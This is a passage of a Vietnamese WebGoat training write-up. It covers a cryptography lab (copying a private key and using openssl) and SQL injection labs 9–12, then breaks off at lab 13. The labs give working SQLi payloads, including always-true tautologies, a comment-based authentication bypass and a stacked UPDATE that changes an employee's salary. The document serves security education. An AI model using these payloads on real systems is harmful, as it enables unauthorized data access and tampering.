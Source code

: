![img](/img/WebGoat/(A2)%20Cryptography%20Failures%2072bef8560ad34a86b98da2ac89261c09/image%203.png)

# Lab 5

- Copy private key vào một file
- Sau đó dùng openssl

![img](/img/WebGoat/(A2)%20Cryptography%20Failures%2072bef8560ad34a86b98da2ac89261c09/image%204.png)
[(A3) Injection]((A3)%20Injection.md)
# (A3) Injection

# SQL Injection (Intro)

## Lab 9

- Để lấy được tất cả dữ liệu trong bảng thì chỉ cần làm logic query thành một query luôn đúng

```sql
SELECT * FROM user_data WHERE first_name = 'John' AND last_name = ‘’ or ‘1’=’1’
```

### Lab 10

- Để lấy được tất cả dữ liệu trong bảng thì chỉ cần làm logic query thành một query luôn đúng

```sql
SELECT * FROM user_data WHERE login_count = 0 AND userid = 0 or 1 = 1
```

### Lab 11

- Payload

```sql
SELECT * FROM employees WHERE last_name = '' or 1=1 -- AND auth_tan = ''
```

### Lab 12

- Để bypass lab này thì cần phải update giá trị lương của Smith, lúc này phải sử dụng Query Chain để chèn câu lệnh update vào sau câu lệnh select
- Payload

```sql
Employee Name: <Anything>
Authentication TAN: '; UPDATE employees SET salary = 1000000 WHERE userid = '37648
```

### Lab 13

- Payload

